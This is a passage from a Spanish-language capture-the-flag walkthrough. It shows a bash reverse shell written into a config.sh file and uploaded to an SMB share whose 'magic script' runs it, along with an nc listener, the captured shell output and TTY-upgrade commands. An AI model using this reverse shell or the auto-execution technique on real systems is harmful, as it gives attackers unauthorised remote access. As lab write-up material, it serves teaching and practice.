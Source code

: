 Y veremos que estaremos dentro, como antes vimos que estaba el `magic script` y si listamos no vemos el archivo `config.sh` vamos a crearnoslo nosotros para que se ejecute de forma automatica ya que es lo que hace esto.

> config.sh

```bash
#!/bin/bash

sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Lo guardamos y nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Ahora tendremos que subir el archivo al `SMB`:

```shell
put config.sh
```

Si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.93] 46076
sh: 0: can't access tty; job control turned off
$ whoami
xerosec
```

Vemos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Antes de nada vamos a leer la `flag` del usuario.

> user.txt
